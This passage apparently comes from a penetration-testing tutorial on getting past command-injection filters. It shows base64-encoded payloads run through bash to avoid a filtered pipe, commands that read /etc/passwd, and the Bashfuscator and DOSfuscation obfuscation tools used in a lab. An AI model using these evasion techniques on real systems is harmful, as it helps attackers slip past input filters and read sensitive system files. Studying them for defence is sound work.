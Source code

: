 ### Encoded Commands 

We can utilize various encoding tools, like `base64` or `xxd`. Let's take base64 as an example. First, we'll encode the payload we want to execute:
```console
zero@pio$ echo -n 'cat /etc/passwd | grep 33' | base64

Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==
zero@pio$ bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
```

> Using `<<<` to avoid using the filtered `|`
{: .prompt-info}

the same can be done on Windows:
```console
C:\zeropio> [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))
```

## Evasion Tools 

### Bashfuscator - Linux 

You can download it from [Github](https://github.com/Bashfuscator/Bashfuscator). We can start by simply providing the command we want to obfuscate with the -c flag:
```console
zero@pio$ ./bashfuscator -c 'cat /etc/passwd'
```

However, running the tool this way will randomly pick an obfuscation technique, which can output a command length ranging from a few hundred characters to over a million characters:
```console
zero@pio$ ./bashfuscator -c 'cat /etc/passwd' -s 1 -t 1 --no-mangling --layers 1
```

We can now test the outputted command with `bash -c ''`, to see whether it does execute the intended command:
```console
zero@pio$ bash -c '...'
```

### DOSfuscation - Windows 

We can download it from [Github](https://github.com/danielbohannon/Invoke-DOSfuscation). 
```console
PS C:\zeropio> Invoke-DOSfuscation
Invoke-DOSfuscation> SET COMMAND type C:\Users\htb-student\Desktop\flag.txt
Invoke-DOSfuscation> encoding
Invoke-DOSfuscation\Encoding> 1
```

---

# Prevention 
